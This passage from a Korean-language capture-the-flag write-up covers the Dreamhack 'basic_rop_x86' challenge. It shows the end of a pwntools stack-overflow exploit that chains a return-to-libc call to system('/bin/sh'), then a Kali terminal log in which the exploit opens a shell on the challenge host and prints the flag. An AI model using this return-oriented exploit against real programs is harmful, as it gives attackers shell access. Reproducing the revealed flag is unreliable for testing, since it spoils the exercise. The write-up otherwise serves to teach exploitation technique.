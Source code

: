 ```python
payload2 = b'A'*0x40 + b'B'*0x8
payload2 += p32(system_library)
payload2 += p32(pr)
payload2 += p32(bin_sh)

p.send(payload2)
p.recvuntil(b'A'*0x40)

p.interactive()

```

system 함수와 문자열 “/bin/sh”의 위치를 알기 때문에 main으로 돌아가서 다시 사용자 입력을 받아 실행될 ret 주소를 system으로 그리고 매개변수를 pop ret을 이용하여 /bin/sh로 설정해준다.

```solidity
┌──(root💀kali)-[~/바탕화면/basic_rop_86]
└─# python3 ./answer.py
[+] Opening connection to host3.dreamhack.games on port 20485: Done
[*] '/root/바탕화면/basic_rop_86/basic_rop_x86'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] '/root/바탕화면/basic_rop_86/libc.so.6'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
system: 0xf7dde940
bin_sh: 0xf7efd02b
[*] Switching to interactive mode
$ ls
basic_rop_x86
flag
$ cat flag
DH{ff3976e1fcdb03267e8d1451e56b90a5}[*] Got EOF while reading in interactive
$
```

실행하면 익스플로잇이 정상적으로 작동하여 쉘을 얻었고 flag 값`DH{ff3976e1fcdb03267e8d1451e56b90a5}`을 얻을 수 있다.
